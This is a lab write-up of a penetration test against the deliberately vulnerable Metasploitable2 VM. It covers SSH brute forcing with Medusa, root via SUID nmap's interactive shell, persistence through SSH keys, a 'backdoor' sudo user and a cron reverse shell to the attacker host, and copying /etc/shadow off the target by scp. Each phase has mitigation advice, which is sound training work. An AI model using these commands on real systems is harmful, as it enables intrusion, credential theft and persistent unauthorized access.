

**Author**: Valentine Imomoh  
**Date**: September 2025  
# Penetration Testing Report: Metasploitable2 Lab

## Table of Contents
- [Executive Summary](#executive-summary)
- [Environment Setup](#environment-setup)
- [Phase 0: Reconnaissance](#phase-0-reconnaissance)
- [Phase 1: Initial Access](#phase-1-initial-access)
- [Phase 2: Enumeration](#phase-2-enumeration)
- [Phase 3: Privilege Escalation](#phase-3-privilege-escalation)
- [Phase 4: Persistence](#phase-4-persistence)
- [Phase 5: Data Exfiltration](#phase-5-data-exfiltration)
- [Conclusion](#conclusion)

## Executive Summary

This report documents a full penetration testing simulation conducted against Metasploitable2, a deliberately vulnerable Linux based virtual machine. The objective was to demonstrate the complete attack lifecycle from reconnaissance to data exfiltration using real world tools and techniques.

The test was performed in a controlled lab environment using Kali Linux as the attacker machine. Key phases included:

- **Reconnaissance**: Identified open ports and services using Nmap.
- **Initial Access**: Gained SSH access via brute-force attack using Medusa.
- **Enumeration**: Explored system users, services, and privilege escalation vectors.
- **Privilege Escalation**: Achieved root access by exploiting a vulnerable SUID binary (`nmap`).
- **Persistence**: Established long-term access via SSH keys and a backup user account.
- **Data Exfiltration**: Simulated theft of sensitive files using SCP.

This exercise highlights the importance of secure configurations, strong authentication, and continuous monitoring in defending against real-world attacks.


## Environment Setup
- **Attacker Machine**: Kali Linux (Version X)
- **Target Machine**: Metasploitable2 (Host-only network)
- **Network Configuration**:
  - Kali: Host-only Adapter
  - Metasploitable2: Host-only Adapter
- **Tools Used**: Nmap, Medusa, SSH, etc.

##  Phase 0: Reconnaissance
### 🎯 Objective
Identify open ports, services, and OS details to guide attack strategy.

---

### 🧰 Tools & Resources
- **Target**: Metasploitable2
- **IP Address**: 192.168.56.101
- **Tools Used**: Nmap, Ping, Curl
---

### 🔹 Host Discovery,Port Scan and Service Enumeration
### Commands Used
``` bash
ping 192.168.56.101
nmap -sS -p- 192.168.56.101
nmap -sV -O 192.168.56.101
```
### ✅ Result
- Open ports found: 21, 22, 23, 80, 139, 445, 3306...
- Services detected: OpenSSH 4.7p1, Apache 2.2.8, vsftpd 2.3.4 e.t.c

## Phase 1: Initial Access

### 🎯 Objective
Gain unauthorized access to the target system by brute-forcing SSH credentials using Medusa.

---

### 🧰 Tools & Resources
- **Tool Used**: Medusa v2.3
- **Target Service**: SSH (Port 22)
- **Target Version**: OpenSSH 4.7p1 Debian 8ubuntu1
- **Wordlist**: Custom wordlist created manually

---

### 🧪 Steps Taken

#### 1. Created Custom Wordlist
To increase brute-force efficiency, a short custom wordlist was created containing likely weak passwords.

**Command:**
```bash
echo -e "msfadmin\nadmin\n123456\npassword\nletmein" > ~/Documents/custom.txt
```
#### 2. Executed Medusa Brute-Force Attack

**Command:**
```bash
medusa -h 192.168.56.101 -u msfadmin -P ~/Documents/custom.txt -M ssh
```
### ✅ Result
- **Username**: msfadmin
- **Password**: msfadmin
- **Access Level**: User shell access via SSH

### 📸 Screenshot:


### 🧠 Observations
- The msfadmin account uses a default password, making it highly vulnerable.
- Brute-force was successful within seconds due to targeted wordlist.
- This confirms the importance of password hygiene and account hardening.

### 🛡️ Mitigation Recommendations
- Disable default accounts or enforce password changes on first login.
- Implement account lockout policies after failed login attempts.
- Monitor SSH logs for brute-force attempts.

> ### 💡 ***Tips & Insights***:
>- *You can use a wordlist from the default `/usr/share/wordlists` directory, download curated lists from sources like SecLists or GitHub, or create your own manually or through random generation tools like `crunch`.*
>
> - 🛠️ *For faster brute-force testing, use short, targeted wordlists when you know the username or service version.*
>
> - 🔐 *Always test your wordlist with a known password to confirm it's working before launching a full attack.*

##  Phase 2: Enumeration

### 🎯 Objective
Explore the target system after gaining access to identify users, services, configurations, and potential escalation paths.

---

### 🧰 Tools & Resources
- **Access Method**: SSH login as msfadmin
- **Tool Used**: Built-in Linux commands
- **Target OS**: Ubuntu 8.04 (Linux Kernel 2.6.X)

---

### 🧪 Steps Taken
#### 1. Logged into Target via SSH

**Command:**
```bash
ssh msfadmin@192.168.56.101
#NB- Due to the host outdated key algorithims I used this instead:
ssh -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedAlgorithms=+ssh-rsa msfadmin@192.168.56.101 
```

#### 2. Identified Current User and System Info

**Command:**
```bash
whoami
id
uname -a
hostname
```
### Findings:

- User: msfadmin
- UID: 1000
- OS: Linux metasploitable 2.6.24-16-server
- Hostname: metasploitable

### 📸 Screenshot: Output of system info commands


#### 3. Checked Running Services and Network Info

**Command:**
```bash
ps aux
netstat -tuln
```
### Findings:

- Services running: FTP, SSH, MySQL, Apache, Samba
- Open ports: 21, 22, 23, 80, 3306, 139, 445...

### 📸 Screenshot: Output of netstat and ps aux
 

#### 4. Listed Users and Groups

**Command:**
```bash
cat /etc/passwd
cat /etc/group
```

### Findings:

- Users: msfadmin, root, postgres, service, etc.
- Groups: sudo, adm, users, nogroup

### 📸 Screenshot: System user account info and groups
 

#### 5. SUID Binaries(Privilege Escalation Leads)

**Command:**
```bash
find / -perm -4000 2>/dev/null
```

### Findings:

- SUID binaries found: /usr/bin/passwd, /usr/bin/nmap, /bin/ping, etc.

### 📸 Screenshot: Output of SUID scan


### 🧠 Observations
- The system is running multiple vulnerable services.
- SUID binaries like nmap may be exploitable for privilege escalation.
- No firewall or access controls detected.

### 🛡️ Recommendations
- Restrict access to sensitive binaries.
- Remove unnecessary users and services.
- Implement least privilege principles.

> ### 💡 ***Tips & Insights***:
>- *Enumeration is critical after gaining access. Use built-in commands to discover users, services, and potential weaknesses. Tools like linpeas, pspy, and enum4linux can automate this process for deeper insights.*
>
>- *ps aux is your Linux Task Manager—use it to spot running services.*
>- *netstat -tuln shows open ports and listening services—critical for mapping attack surfaces.*
>- */etc/passwd lists all system users—look for accounts with login shells.*
>- */etc/group reveals group memberships—users in admin or sudo may have elevated privileges.*
>- *SUID binaries (-4000) can be privilege escalation gold—especially if they’re misconfigured or outdated.*

##  Phase 3: Privilege Escalation

### 🎯 Objective
Escalate privileges from the msfadmin user to root by exploiting misconfigured SUID binaries.

---

### 🧰 Tools & Resources
- **Access Level**: SSH shell as msfadmin
- **Tool Used**: Built-in Linux commands
- **Target OS**: Ubuntu 8.04 (Linux Kernel 2.6.X)
- **Focus**: SUID binaries

---

### 🧪 Steps Taken
#### 1. Identified SUID Binaries
**Command:**
```bash
find / -perm -4000 2>/dev/null
```
Findings:
- /usr/bin/nmap
- /usr/bin/passwd
- /usr/bin/chsh
- /usr/bin/sudo
- (Full list in Phase 2 Output of SUID scan)

#### 2. Tested Exploitable SUID Binary: nmap
Older versions of nmap support an interactive shell mode that can be abused.

**Command:**
```bash
/usr/bin/nmap --interactive
#once you see 'nmap>' type:
!sh
#Then verify with: 
whoami
id
```
### 📸 Screenshot: Terminal showing root shell access


### 🧠 Observations
- The presence of an outdated, SUID-enabled nmap binary is a critical vulnerability.
- No logging or alerting mechanisms detected.
- Privilege escalation was achieved without needing external tools.
### 🛡️ Mitigation Recommendations
- Remove or restrict SUID permissions on unnecessary binaries.
- Update nmap to a secure version.
- Implement file integrity monitoring (e.g., AIDE, Tripwire).
- Limit user access to sensitive binaries.

> ### 💡 ***Tips & Insights***:
>- *The --interactive mode in Nmap was a feature in older versions of the tool that allowed users to interactively execute commands within Nmap. However, interactive mode has been removed in newer versions of Nmap due to security concerns, as it could be exploited for privilege escalation or unauthorized access.*
>
>- *Always check for SUID binaries—especially ones like nmap, vim, perl, or bash. If they’re outdated or misconfigured, they can be privilege escalation gold. Use GTFOBins (https://gtfobins.github.io) to look up known exploits for common binaries.*

##  Phase 4: Persistence

### 🎯 Objective
Establish a reliable method to maintain access to the compromised system, even after reboot or session termination.

---

### 🧰 Tools & Resources
- **Access Level**: Root shell (from Phase 3)
- **Tool Used**: SSH, cron, bash
- **Target OS**: Ubuntu 8.04

---

### 🧪 Techniques Explored
#### 1. Add SSH Key for Passwordless Login
This method allows you to log in without brute-forcing again by generating an SSH key on Kali and copying it to the target

**Command:**
```bash
ssh-keygen -t rsa -b 2048
ssh-copy-id msfadmin@192.168.56.101
#NB- like before i forced my kali to use rsa instead with:
ssh-copy-id -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedAlgorithms=+ssh-rsa msfadmin@192.168.56.101
#do do it manually use:
cat ~/.ssh/id_rsa.pub >> /home/msfadmin/.ssh/authorized_keys
```

### 📸 Screenshot: SSH key setup and passwordless login test


#### 2. Create a New User with Root Privileges
By taking advantage of root privilege access, you can create a new user and assign it root privilge. This is stealthy and useful if the original account gets disabled.

**Command:**
```bash
useradd -m -s /bin/bash backdoor
echo 'backdoor:backdoor123' | chpasswd
usermod -aG sudo backdoor
```
### 📸 Screenshot: User creation and privilege assignment
 

#### 3. Set Up a Cron Job for Reverse Shell
This method calls back to your Kali machine at intervals.

**Command:**

```bash
echo "* * * * * bash -i >& /dev/tcp/192.168.56.1/4444 0>&1" >> /etc/crontab
```

⚠️ Use this technique with caution as the target machine will try to connect back to you every minute or based on the time interval you specify and this can be noisy and easily detected.

### ✅ Result
- Passwordless SSH access confirmed
- Backup user backdoor created with root privileges
- Optional reverse shell cron job installed

### 🧠 Observations
- SSH key persistence is stealthy and reliable.
- Creating a new user is effective but may be noticed by admins.
- Cron jobs offer automation but increase detection risk.

### 🛡️ Mitigation Recommendations
- Monitor /etc/passwd and /etc/crontab for unauthorized changes.
- Use SSH key auditing tools.
- Implement intrusion detection systems (IDS) like OSSEC or Tripwire.

> ### 💡 ***Tips & Insights***:
> *Persistence is about stealth and reliability. SSH keys are preferred for quiet access. Cron jobs and new users are useful but risk exposure. Always clean up after testing in lab environments.*

##  Phase 5: Data Exfiltration

### 🎯 Objective
Simulate the extraction of sensitive files from the compromised system to demonstrate the impact of a successful breach.

---

### 🧰 Tools & Resources
- **Access Level**: Root shell
- **Tool Used**: SCP, Bash
- **Target OS**: Ubuntu 8.04

---

### 🧪 Steps Taken
#### 1. Identified Sensitive Files
##### Common targets include:

- /etc/passwd: User account info
- /etc/shadow: Hashed passwords (root access required)
- /var/log/auth.log: Login history
- /home/msfadmin/Documents: Simulated personal files

Command:

```bash
ls -la /etc/passwd /etc/shadow /home/msfadmin
```
### 📸 Screenshot: Listing sensitive files


2. Copied Files to Attacker Machine via SCP
From Kali:

```bash
scp msfadmin@192.168.56.101:/etc/passwd .
scp msfadmin@192.168.56.101:/etc/shadow .
```
### 📸 Screenshot: SCP file transfer


***as seen in the image above, the shadow file is highly protected as it contains all system users hashed password so its denying me access frm copying it. But since i already have root access i can log back in as root and duplicate the file to a less secure location using root privilege and extract from my kali machine.***

### ✅ Result
- Successfully extracted /etc/passwd and /etc/shadow
- Demonstrated ability to steal system-level credentials
### 🧠 Observations
- Root access enabled unrestricted data theft
- No outbound traffic filtering detected
- No alerts or logs triggered during exfiltration
### 🛡️ Mitigation Recommendations
- Restrict access to sensitive files
- Monitor outbound traffic for anomalies
- Implement file integrity monitoring
- Use Data Loss Prevention (DLP) tools

> ### 💡 ***Tips & Insights***:
> *Data exfiltration isn’t just about stealing files—it’s about proving impact. Use SCP for stealth, and always simulate with fake loot in labs. In real-world ops, exfiltration often targets databases, credentials, or intellectual property.*

## Conclusion

This penetration testing simulation successfully demonstrated the full attack chain against a vulnerable target. Starting from external reconnaissance, the attacker was able to gain initial access, escalate privileges, maintain persistence, and exfiltrate sensitive data—all without triggering any defenses.

The exercise reinforced key offensive security concepts:
- The power of targeted brute-force attacks
- The importance of post-exploitation enumeration
- How misconfigured binaries can lead to root access
- Techniques for maintaining stealthy persistence
- Methods for extracting data without detection

For defenders, this report serves as a reminder that default credentials, outdated software, and unmonitored system changes remain high-risk vulnerabilities. Regular audits, patching, and intrusion detection systems are essential to mitigate these threats.

This lab not only demonstrates technical proficiency but also showcases the mindset and methodology of a professional penetration tester.


